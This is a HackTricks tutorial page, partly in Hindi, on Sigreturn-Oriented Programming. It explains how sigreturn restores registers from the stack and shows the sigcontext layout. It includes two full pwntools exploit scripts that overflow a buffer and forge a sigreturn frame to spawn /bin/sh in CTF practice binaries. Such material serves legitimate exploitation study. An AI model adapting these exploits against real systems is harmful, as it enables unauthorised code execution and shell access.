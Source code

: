 # SROP - Sigreturn-Oriented Programming

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**`Sigreturn`** एक विशेष **syscall** है जिसका मुख्य उपयोग एक सिग्नल हैंडलर के निष्पादन के बाद सफाई करने के लिए किया जाता है। सिग्नल वे व्यवधान हैं जो ऑपरेटिंग सिस्टम द्वारा एक प्रोग्राम को भेजे जाते हैं, अक्सर यह संकेत देने के लिए कि कोई असाधारण स्थिति उत्पन्न हुई है। जब एक प्रोग्राम एक सिग्नल प्राप्त करता है, तो यह सिग्नल को संभालने के लिए अस्थायी रूप से अपने वर्तमान कार्य को रोकता है, एक **सिग्नल हैंडलर** के साथ, जो सिग्नल को संभालने के लिए डिज़ाइन किया गया एक विशेष फ़ंक्शन है।

सिग्नल हैंडलर के समाप्त होने के बाद, प्रोग्राम को **अपने पिछले स्थिति पर लौटने** की आवश्यकता होती है जैसे कि कुछ भी नहीं हुआ। यहीं पर **`sigreturn`** काम आता है। यह प्रोग्राम को **सिग्नल हैंडलर से लौटने** में मदद करता है और सिग्नल हैंडलर द्वारा उपयोग किए गए स्टैक फ्रेम (मेमोरी का वह भाग जो फ़ंक्शन कॉल और स्थानीय चर को संग्रहीत करता है) को साफ करके प्रोग्राम की स्थिति को बहाल करता है।

दिलचस्प बात यह है कि **`sigreturn`** प्रोग्राम की स्थिति को कैसे बहाल करता है: यह **CPU के सभी रजिस्टर मानों को स्टैक पर संग्रहीत करके** ऐसा करता है। जब सिग्नल अब अवरुद्ध नहीं होता है, **`sigreturn` इन मानों को स्टैक से पॉप करता है**, प्रभावी रूप से CPU के रजिस्टर को उनके उस स्थिति पर रीसेट करता है जब सिग्नल को संभाला गया था। इसमें स्टैक पॉइंटर रजिस्टर (RSP) शामिल है, जो स्टैक के वर्तमान शीर्ष की ओर इशारा करता है।

{% hint style="danger" %}
Calling the syscall **`sigreturn`** from a ROP chain and **adding the registry values** we would like it to load in the **stack** it's possible to **control** all the register values and therefore **call** for example the syscall `execve` with `/bin/sh`.
{% endhint %}

Note how this would be a **type of Ret2syscall** that makes much easier to control params to call other Ret2syscalls:

{% content-ref url="../rop-syscall-execv/" %}
[rop-syscall-execv](../rop-syscall-execv/)
{% endcontent-ref %}

If you are curious this is the **sigcontext structure** stored in the stack to later recover the values (diagram from [**here**](https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html)):
```
+--------------------+--------------------+
| rt_sigeturn()      | uc_flags           |
+--------------------+--------------------+
| &uc                | uc_stack.ss_sp     |
+--------------------+--------------------+
| uc_stack.ss_flags  | uc.stack.ss_size   |
+--------------------+--------------------+
| r8                 | r9                 |
+--------------------+--------------------+
| r10                | r11                |
+--------------------+--------------------+
| r12                | r13                |
+--------------------+--------------------+
| r14                | r15                |
+--------------------+--------------------+
| rdi                | rsi                |
+--------------------+--------------------+
| rbp                | rbx                |
+--------------------+--------------------+
| rdx                | rax                |
+--------------------+--------------------+
| rcx                | rsp                |
+--------------------+--------------------+
| rip                | eflags             |
+--------------------+--------------------+
| cs / gs / fs       | err                |
+--------------------+--------------------+
| trapno             | oldmask (unused)   |
+--------------------+--------------------+
| cr2 (segfault addr)| &fpstate           |
+--------------------+--------------------+
| __reserved         | sigmask            |
+--------------------+--------------------+
```
For a better explanation check also:

{% embed url="https://youtu.be/ADULSwnQs-s?feature=shared" %}

## Example

You can [**find an example here**](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop) जहाँ सिग्नरटर्न के लिए कॉल ROP के माध्यम से बनाया गया है (rxa में मान `0xf` डालकर), हालाँकि यह वहाँ से अंतिम एक्सप्लॉइट है:
```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)         # 0xf is the number of the syscall sigreturn
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
Check also the [**exploit from here**](https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html) जहाँ बाइनरी पहले से ही `sigreturn` को कॉल कर रही थी और इसलिए इसे **ROP** के साथ बनाने की आवश्यकता नहीं है:
```python
from pwn import *

# Establish the target
target = process("./small_boi")
#gdb.attach(target, gdbscript = 'b *0x40017c')
#target = remote("pwn.chal.csaw.io", 1002)

# Establish the target architecture
context.arch = "amd64"

# Establish the address of the sigreturn function
sigreturn = p64(0x40017c)

# Start making our sigreturn frame
frame = SigreturnFrame()

frame.rip = 0x400185 # Syscall instruction
frame.rax = 59       # execve syscall
frame.rdi = 0x4001ca # Address of "/bin/sh"
frame.rsi = 0x0      # NULL
frame.rdx = 0x0      # NULL

payload = "0"*0x28 # Offset to return address
payload += sigreturn # Function with sigreturn
payload += str(frame)[8:] # Our sigreturn frame, adjusted for the 8 byte return shift of the stack

target.sendline(payload) # Send the target payload

# Drop to an interactive shell
target.interactive()
```
## अन्य उदाहरण और संदर्भ

* [https://youtu.be/ADULSwnQs-s?feature=shared](https://youtu.be/ADULSwnQs-s?feature=shared)
* [https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop)
* [https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html](https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html)
* Assembly binary जो **stack पर लिखने** की अनुमति देता है और फिर **`sigreturn`** syscall को कॉल करता है। यह संभव है कि stack पर एक [**ret2syscall**](../rop-syscall-execv/) को **sigreturn** संरचना के माध्यम से लिखा जाए और उस फ्लैग को पढ़ा जाए जो बाइनरी की मेमोरी के अंदर है।
* [https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html](https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html)
* Assembly binary जो **stack पर लिखने** की अनुमति देता है और फिर **`sigreturn`** syscall को कॉल करता है। यह संभव है कि stack पर एक [**ret2syscall**](../rop-syscall-execv/) को **sigreturn** संरचना के माध्यम से लिखा जाए (बाइनरी में स्ट्रिंग `/bin/sh` है)।
* [https://guyinatuxedo.github.io/16-srop/inctf17\_stupidrop/index.html](https://guyinatuxedo.github.io/16-srop/inctf17\_stupidrop/index.html)
* 64 बिट्स, कोई relro नहीं, कोई canary नहीं, nx, कोई pie नहीं। `gets` फ़ंक्शन का उपयोग करते हुए सरल बफर ओवरफ्लो जो [**ret2syscall**](../rop-syscall-execv/) को निष्पादित करता है। ROP श्रृंखला `/bin/sh` को `.bss` में लिखती है, फिर से gets को कॉल करती है, यह **`alarm`** फ़ंक्शन का दुरुपयोग करती है ताकि eax को `0xf` पर सेट किया जा सके ताकि एक **SROP** को कॉल किया जा सके और एक शेल निष्पादित किया जा सके।
* [https://guyinatuxedo.github.io/16-srop/swamp19\_syscaller/index.html](https://guyinatuxedo.github.io/16-srop/swamp19\_syscaller/index.html)
* 64 बिट्स assembly प्रोग्राम, कोई relro नहीं, कोई canary नहीं, nx, कोई pie नहीं। प्रवाह stack में लिखने, कई रजिस्टरों को नियंत्रित करने, और एक syscall को कॉल करने की अनुमति देता है और फिर यह `exit` को कॉल करता है। चयनित syscall एक `sigreturn` है जो रजिस्टर सेट करेगा और `eip` को एक पूर्व syscall निर्देश को कॉल करने के लिए स्थानांतरित करेगा और बाइनरी स्पेस को `rwx` पर सेट करने के लिए `memprotect` को चलाएगा और बाइनरी स्पेस में ESP को सेट करेगा। प्रवाह का पालन करते हुए, प्रोग्राम फिर से ESP में पढ़ने को कॉल करेगा, लेकिन इस मामले में ESP अगली निर्देश की ओर इशारा करेगा, इसलिए एक शेलकोड पास करना इसे अगली निर्देश के रूप में लिखेगा और इसे निष्पादित करेगा।
* [https://www.ctfrecipes.com/pwn/stack-exploitation/arbitrary-code-execution/code-reuse-attack/sigreturn-oriented-programming-srop#disable-stack-protection](https://www.ctfrecipes.com/pwn/stack-exploitation/arbitrary-code-execution/code-reuse-attack/sigreturn-oriented-programming-srop#disable-stack-protection)
* SROP का उपयोग निष्पादन विशेषाधिकार (memprotect) देने के लिए किया जाता है उस स्थान पर जहां एक शेलकोड रखा गया था।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
